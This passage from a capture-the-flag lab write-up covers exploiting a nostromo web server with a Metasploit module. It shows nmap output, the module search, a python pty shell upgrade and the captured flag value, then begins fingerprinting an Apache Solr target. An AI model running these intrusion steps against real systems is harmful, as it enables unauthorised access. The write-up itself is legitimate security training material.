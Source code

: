 ```
root@attackdefense:~# nmap 192.38.176.3 -sV
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-06 23:46 IST
Nmap scan report for target-1 (192.38.176.3)
Host is up (0.000015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nostromo 1.9.5
```

Metasploit has the following exploit.

```
msf5 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution
```

Running the exploit, upgrading the shell, finding the flag and reading it is fairly straightforward.

```
python -c 'import pty; pty.spawn("/bin/bash")'
admin@victim-1:/bin$ find / -xdev -name *flag
find / -xdev -name *flag
find: '/var/cache/apt/archives/partial': Permission denied
find: '/var/cache/ldconfig': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/root': Permission denied
find: '/etc/ssl/private': Permission denied
/flag
admin@victim-1:/bin$ cat /flag
cat /flag
c3b940013b8b52573f4615d5236bbe3d
```

##  Vulnerable Search Platform 
>The target server is running an outdated enterprise search platform that is vulnerable to a publicly known vulnerability.
In this challenge, the attacker has to fingerprint the search platform and exploit it using the appropriate Metasploit module.

As always, I'll be using nmap for recon, searching the Metasploit framework for an exploit, then using whatever the exploit's standard payload is.

```
root@attackdefense:~# nmap -sV 192.38.186.3 -p 0-65535  
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-06 23:54 IST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for target-1 (192.38.186.3)
Host is up (0.000014s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE     VERSION
8983/tcp  open  http        Apache Solr
18983/tcp open  rmiregistry Java RMI
41399/tcp open  rmiregistry Java RMI
```
